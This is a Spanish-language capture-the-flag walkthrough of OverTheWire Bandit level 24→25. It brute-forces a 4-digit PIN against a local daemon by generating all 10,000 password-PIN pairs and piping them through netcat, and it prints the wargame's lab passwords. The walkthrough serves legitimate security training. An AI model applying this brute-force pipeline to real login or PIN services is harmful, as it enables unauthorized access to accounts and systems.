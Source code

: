 <!-- Autor: Daniel Benjamin Perez Morales -->
<!-- GitHub: https://github.com/DanielPerezMoralesDev13 -->
<!-- Correo electrónico: danielperezdev@proton.me  -->

# ***Bandido Nivel 24 → Nivel 25***

- *Objetivo de nivel*

- *Un demonio está escuchando en el puerto 30002 y te dará la contraseña para bandit25 si se le da la contraseña para bandit24 y un pincode secreto numérico de 4 dígitos. No hay forma de recuperar el código PIN excepto repasando todas las 10000 combinaciones, lo que se conoce como forzar de forma bruta.*
- *No es necesario crear nuevas conexiones cada vez.*

---

## **Objetivo del Nivel:**

- *Debes conectarte a un servicio que escucha en el puerto `30002`. El servicio solicita:*

1. *La **contraseña** de Bandit24.*
2. *Un **PIN** de 4 dígitos.*

*El desafío es forzar el PIN probando todas las combinaciones posibles (0000-9999) mediante un ataque de fuerza bruta.*

---

## **Pasos detallados:**

### **1. Preparar el entorno:**

```bash
cd $(mktemp -d)
touch script.sh
chmod u+x script.sh
nano script.sh
```

- **`mktemp -d`:** *Crea un directorio temporal único y cambia a él.*
- **`touch script.sh`:** *Crea el archivo del script.*
- **`chmod u+x script.sh`:** *Da permisos de ejecución al script.*
- **`nano script.sh`:** *Abre el script para editarlo.*

---

### **2. Crear el script para generar combinaciones:**

**Contenido del script:**

```bash
#!/usr/bin/env bash

for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done
```

#### **Explicación:**

- **`for i in {0000..9999}`:** *Genera todos los números entre `0000` y `9999`.*
- **`echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"`:** *Imprime la contraseña de Bandit24 junto con cada PIN en el formato que el servicio espera.*

---

### **3. Generar el diccionario:**

```bash
./script.sh > dictionary.txt
```

- **Ejecución del script** y guarda la salida en `dictionary.txt`, un archivo que contiene todas las combinaciones posibles de contraseña y PIN.

#### **Verificar el archivo:**

```bash
wc -l dictionary.txt
```

**Salida:**

```bash
10000 dictionary.txt
```

- **wc -l:** *Cuenta el número de líneas en el archivo, confirmando que tiene 10,000 combinaciones.*

---

### **4. Enviar las combinaciones al servicio usando `nc`:**

```bash
cat dictionary.txt | nc localhost 30002 | grep -iEv "Wrong|Please" | head -n 2 | tail -n 1 | awk 'NF{print $NF}'
```

#### **Explicación detallada:**

- **`cat dictionary.txt`:** *Lee todas las combinaciones generadas.*
- **`nc localhost 30002`:** *Conecta al servicio en el puerto 30002 y envía las combinaciones.*
- **`grep -iEv "Wrong|Please"`:** *Filtra las respuestas, eliminando aquellas que contienen "Wrong" o "Please".*
- **`head -n 2 | tail -n 1`:** *Toma la segunda línea relevante de la salida, que es donde aparece la contraseña correcta.*
- **`awk 'NF{print $NF}'`:** *Extrae y muestra la última palabra de la línea, que es la **contraseña para el siguiente nivel**.*

---

### **5. Resultado:**

- *La salida final es la contraseña para **Bandit25**:*

```bash
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

---

### **Resumen:**

- *Este nivel se resuelve creando un script que genera todas las combinaciones posibles de un PIN de 4 dígitos, junto con la contraseña de Bandit24. El script envía cada combinación al servicio en el puerto `30002` utilizando **netcat** (`nc`). Finalmente, se filtra la salida para obtener la contraseña correcta mediante herramientas como **grep**, **head**, **tail** y **awk**.*
